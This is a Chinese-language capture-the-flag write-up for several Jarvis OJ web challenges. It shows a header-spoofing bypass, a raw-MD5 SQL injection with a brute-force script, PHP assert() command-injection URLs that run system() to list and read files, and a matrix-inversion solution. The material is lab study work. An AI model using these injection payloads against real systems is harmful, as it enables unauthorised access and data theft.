 ```yaml
---
title: jarvisoj-writeup
tags:
---
```


### WEB

#### localhost

> 题目入口：http://web.jarvisoj.com:32774/

直接访问提示 localhost access only!! ，burp拦截并在请求头添加 *X-Forwarded-For: 127.0.0.1*后放行即可。 

Yeah!! Here's your flag:PCTF{X_F0rw4rd_F0R_is_not_s3cuRe}

#### login

> 需要密码才能获得flag哦。
>
> 题目链接：http://web.jarvisoj.com:32772/

响应头有提示：

```php
Hint:"select * from `admin` where password='".md5($pass,true)."'"
```

最终在数据库执行的是 *select * from   \`admin\`  where password='xxx'* ，其中xxx是哈希处理过的，我们无法直接操控。但是因为 *md5($pass,true)*  返回的是16字节的二进制串(而不是常见的32位十六进制串)，解释成字符串就可能出现`''.join(map(chr,xrange(256)))` 中的任何一个，那么如果十六字节的字符串中能出现`bla'or'1bla` 或是`bla'||'1bla` 这样的形式，即符合 `re.compile("'or'[1-9]|'\|\|'[1-9]", re.I)`  这种pattern的，拼接后就可以绕过比较。平均算起来，大约每`256**5/5/9/(16-5)=2221235611` 也就是22亿个哈希值中可能出现一个我们想要的，我大概7分钟算一亿个，运气好三个小时能算出一个来，然而不想算。别处看到两个 `ffifdyop`和`129581926211651571912466741651878684928` 。

> string **md5**    ( string `$str`   [, bool `$raw_output` = false  ] )
>
> 如果可选的 raw_output 被设置为 TRUE，那么 MD5 报文摘要将以16字节长度的原始二进制格式返回。

```python
import hashlib
import itertools
import string
import re
pool = string.printable
r = re.compile("'or'[1-9]|'\|\|'[0-9]", re.I)
# cnt = 1
with open('res.txt', 'w+') as f:
    for i in xrange(100):
        for j in itertools.product(pool, repeat=i):
            s = hashlib.md5(''.join(j)).digest()
            # cnt += 1
            # f.write(str(cnt)+'\t'+s+'\t'+''.join(j)+'\n')
            # if cnt % 100000000 == 0:
            #     print cnt
            if re.search(r, s):
                f.write(str(cnt)+'\t'+s+'\t'+''.join(j)+'\n')
                print str(cnt)+'\t'+s+'\t'+''.join(j)+'\n'
```

Correct pass!! Your Flag: PCTF{R4w_md5_is_d4ng3rous}

参考：

1. http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
2. http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/
3. http://blog.csdn.net/greyfreedom/article/details/45846137

#### [61dctf]babyphp

> 题目入口：<http://web.jarvisoj.com:32798/>
>
> Hint1: 此题缺少关键解题文件的问题已修复。

利用Githack发现源码泄露，审查 index.php ，危险函数assert()引起命令执行。

```php
//index.php关键代码
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```

```php
view-source:http://web.jarvisoj.com:32798/?page=flag'.system('ls -R').'
view-source:http://web.jarvisoj.com:32798/?page=flag'.system('tac templates/flag.php').'
or 
view-source:http://web.jarvisoj.com:32798/?page=flag'.var_dump(scandir('templates/')).'
view-source:http://web.jarvisoj.com:32798/?page=flag'.var_dump(file('templates/flag.php')).'
```

```
//$FLAG = '61dctf{8e_careful_when_us1ng_ass4rt}';
```

> bool **assert**    ( [mixed](mk:@MSITStore:D:\hub\tecBook\技术文档\手册\php_enhanced_zh.chm::/res/language.pseudo-types.html#language.types.mixed) `$assertion`   [, string `$description`  ] )
>
> 如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

#### [61dctf]admin

> 题目入口：http://web.jarvisoj.com:32792/

访问robots.txt 发现 http://web.jarvisoj.com:32792/admin_s3cr3t.php，访问得到flag{hello guest}并不是flag，在请求头把 admin:0 改为 admin:1 即可得到正确flag   flag{hello_admin~}

#### WEB?

> 这么简单的题，是WEB吗？
>
> 题目入口：http://web.jarvisoj.com:9891/

随意提交，显示`Wrong Password!!` ，在源码底部发现app.js，打开app.js  ctrl+f 搜索`Wrong Password!!` 定位到关键代码。代码大概意思是矩阵o 和我们输入的值相乘得到另一个矩阵r ，那么根据` input=inv(o)*r'` 用matlab一算便得 。

```matlab
核心逻辑：
if(25!==e.length)return!1;
for(var t=[],n=0;n<25;n++)t.push(e.charCodeAt(n));
for(var r=[blabla],o=[blabla],n=0;n<25;n++)
{
	for(var i=0,a=0;a<25;a++)
	i+=t[a]*o[n][a];
	if(i!==r[n])return !1;
}
return !0;

o=[[11,13,32,234,236,3,72,237,122,230,157,53,7,225,193,76,142,166,11,196,194,187,152,132,135],[76,55,38,70,98,244,201,125,182,123,47,86,67,19,145,12,138,149,83,178,255,122,238,187,221],[218,233,17,56,151,28,150,196,79,11,150,128,52,228,189,107,219,87,90,221,45,201,14,106,230],[30,50,76,94,172,61,229,109,216,12,181,231,174,236,159,128,245,52,43,11,207,145,241,196,80],[134,145,36,255,13,239,212,135,85,194,200,50,170,78,51,10,232,132,60,122,117,74,117,250,45],[142,221,121,56,56,120,113,143,77,190,195,133,236,111,144,65,172,74,160,1,143,242,96,70,107],[229,79,167,88,165,38,108,27,75,240,116,178,165,206,156,193,86,57,148,187,161,55,134,24,249],[235,175,235,169,73,125,114,6,142,162,228,157,160,66,28,167,63,41,182,55,189,56,102,31,158],[37,190,169,116,172,66,9,229,188,63,138,111,245,133,22,87,25,26,106,82,211,252,57,66,98],[199,48,58,221,162,57,111,70,227,126,43,143,225,85,224,141,232,141,5,233,69,70,204,155,141],[212,83,219,55,132,5,153,11,0,89,134,201,255,101,22,98,215,139,0,78,165,0,126,48,119],[194,156,10,212,237,112,17,158,225,227,152,121,56,10,238,74,76,66,80,31,73,10,180,45,94],[110,231,82,180,109,209,239,163,30,160,60,190,97,256,141,199,3,30,235,73,225,244,141,123,208],[220,248,136,245,123,82,120,65,68,136,151,173,104,107,172,148,54,218,42,233,57,115,5,50,196],[190,34,140,52,160,34,201,48,214,33,219,183,224,237,157,245,1,134,13,99,212,230,243,236,40],[144,246,73,161,134,112,146,212,121,43,41,174,146,78,235,202,200,90,254,216,113,25,114,232,123],[158,85,116,97,145,21,105,2,256,69,21,152,155,88,11,232,146,238,170,123,135,150,161,249,236],[251,96,103,188,188,8,33,39,237,63,230,128,166,130,141,112,254,234,113,250,1,89,0,135,119],[192,206,73,92,174,130,164,95,21,153,82,254,20,133,56,7,163,48,7,206,51,204,136,180,196],[106,63,252,202,153,6,193,146,88,118,78,58,214,168,68,128,68,35,245,144,102,20,194,207,66],[154,98,219,2,13,65,131,185,27,162,214,63,238,248,38,129,170,180,181,96,165,78,121,55,214],[193,94,107,45,83,56,2,41,58,169,120,58,105,178,58,217,18,93,212,74,18,217,219,89,212],[164,228,5,133,175,164,37,176,94,232,82,0,47,212,107,111,97,153,119,85,147,256,130,248,235],[221,178,50,49,39,215,200,188,105,101,172,133,28,88,83,32,45,13,215,204,141,226,118,233,156],[236,142,87,152,97,134,54,239,49,220,233,216,13,143,145,112,217,194,114,221,150,51,136,31,198]];
r=[325799,309234,317320,327895,298316,301249,330242,289290,273446,337687,258725,267444,373557,322237,344478,362136,331815,315157,299242,305418,313569,269307,338319,306491,351259];
in=inv(o)*r'

得到：
res=''.join(map(chr,[81,87,66,123,82,51,97,99,55,95,49,115,95,105,110,116,101,114,101,115,116,105,110,103,125]))
'QWB{R3ac7_1s_interesting}'
```

